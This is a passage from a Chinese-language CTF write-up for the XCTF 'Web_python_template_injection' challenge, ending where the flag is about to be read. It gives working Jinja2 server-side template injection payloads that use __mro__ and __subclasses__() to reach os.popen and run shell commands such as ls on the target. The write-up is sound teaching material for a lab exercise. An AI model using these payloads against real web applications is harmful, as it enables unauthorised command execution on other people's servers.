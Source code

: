 发现2*2变成4了,应该存在模板注入

```
{{''.__class__.__mro__[2].__subclasses__()}}
//查看可引用的所有模块
```

![Web_python_template_injection](images/web/攻防世界_Web_python_template_injection_2.png)



接着，找到flag

由于我们想要读取到flag文件里的信息，所以选用 os.popen

首先我们要找到os模块的位置，他是位于<class 'site._Printer'>里面 ，结果查找在71

通过`**__subclasses__()[71].__init__.__globals__['os'].popen('命令行语句').read()`

```
/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}		//也可以用

/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}
```

![Web_python_template_injection](images/web/攻防世界_Web_python_template_injection_3.png)



读取flag
